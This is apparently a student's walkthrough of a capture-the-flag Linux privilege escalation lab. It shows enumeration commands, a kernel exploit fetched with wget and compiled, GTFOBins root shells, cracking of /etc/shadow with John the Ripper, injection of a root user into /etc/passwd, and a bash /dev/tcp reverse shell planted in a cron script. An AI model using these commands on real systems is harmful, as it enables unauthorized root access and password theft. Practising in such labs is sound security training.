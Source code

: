 # Linux Priviledge Escalation Room

## TASK 3
This task highlighted some commonly used commands for Linux to help guide you into who you are, what connectivity from this device is, and what to look for as possible vulnerability.
- ```uname -a ```
- ``` hostname  ```
- ```cat /proc/version```
- ```cat /etc/issue```
- ```ps -A ``` or ```ps axjf```
- ```sudo -l```
- ```cat /etc/passwd```
- ```ifconfig```
- ```netstat -at```
- ```find /home -name flag1.txt```  or ``` find / -type f -perm 0777 ```
    - ``` find / -perm -u=s -type f 2>/dev/null ``` allows you to find SUID bit files, which allows us to run the file with a higher privilege level than the current user.


## TASK 5
In the room for the Linux Exploitation Task 5, you'll need to use the HackBox to create a new file called `ofs.c` with the contents of the `CVE-2015-1328.c` in it. This is based on the content of the exploit here https://www.exploit-db.com/exploits/37292. Spin up a python3 server by executing: 
    ``` python3 -m http.server 9000```
Then from the target computer, you'll use wget to download the ofs.c file and compile it using the command:
    ```gcc ofs.c -o ofs```
This should result in you opening a shell that results in you being root


## TASK 6
 
For this task the new box needs to be spun up so that there's a box that has the name `LinPrivEscSUDO`. TO start answering questions you'll need to first execute the command to find out which services the current user has the ability to run without password the sudo command. In this case I ran
    ```sudo -l```
From here it lisited the number of services that is the answer to the first question on this task. I was able to go to the site that's referenced in the dialague for this task [GTFOBins](https://gtfobins.github.io/) and search for each of the services listed to see which one would allow us to escalate into a shell that is root privileges. This case I used the command
     ``` sudo find . -exec /bin/sh \;``` 
which started a root session and from there able to cat the flag2.txt file for the answer to the second question. For the third question, using [GTFOBins](https://gtfobins.github.io/) searched for the sudo use of nmap and used the command I found there for the correct answer. Last question took a little bit of searching for how to accomplish the goal, but what I learned was that ```cat /etc/passwd``` allowed me to see that despite frank not having a home directory, frank did have a password hash stored in /etc/shadow. Pretty cool details for how to interpret that file found on this [site](https://takahideiwai.github.io/Cryptography/01-passwordcracking/index.html)


## TASK 7
This task is similar to the one above, but we need to deal with the set user id (SUID) and set group id (SGID) concepts. Using the command:
    ```find / -type f -perm -04000 -ls 2>/dev/null```
we are able to find out which services you can actually run as the owner of those services. The use of [GTFOBins] is still relevant here to list which services have SUID exploits. This section also includes the steps for using the /etc/shadow and /etc/passwd files to list valuable information. Steps are as follows:

- Create outputs of both files by running ```nano passwd.txt ``` and  ```nano shadow.txt``` and copy the contents of the ```base64 "$LFILE" | base64 --decode``` command for each while replacing the LFILE variable with which file you need to read.
- Use the unshadow tool to export to a file with ```unshadow passwd.txt shadow.txt > passwords.txt```
- Execute John the Ripper with a wordlist that will print out password in plain text ```john passwords.txt --wordlists /usr/share/wordlists/rockyou.txt``` if executing from the AttackBox. Then 

The Alternative path was to add the new user hash to the /etc/passwd file with root permissions. This could be done by using the ```openssl passwd -1 -salt ``` command and adding ```:/root:/bin/bash``` permission. This second route only works if you have the ability to sudo into root and adding edit permissions on the /etc/passwd file. 

## TASK 8
This task looks at the capabilities of the binaries on the box. using the command ```getcap -r / 2>/dev/null``` was able to answer the first three questions of this section. The additional binary that was found on the box for me was a service called view. In this case to take advantange of the capabilities I used the command
    ```/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'```
This started a shell that would be started as root and I'd be able to print the contents of the flag file.

## TASK 9
used the ```cat /etc/crontab``` command to find the list of all the chron jobs across the system. Finding the file that my user owns, I modify that file by adding the command:
    ```bash-i>&/dev/tcp/10.10.14.15/9000>&1```
Once you verify that the backup.sh file has +x permissions on it, you should be ready to set up the listener on the AttackBox:
    ```nc -lnvp 9000```
The reverse shell should show up and the flag is fairly straight forward to find from there. To get Matt's password we need some of the previous skills from previous tasks to help us out. Since we're already running as root, we should be able to dump the /etc/passwd and /etc/shadow files so that we can run John the Ripper on the AttackBox to crack the code.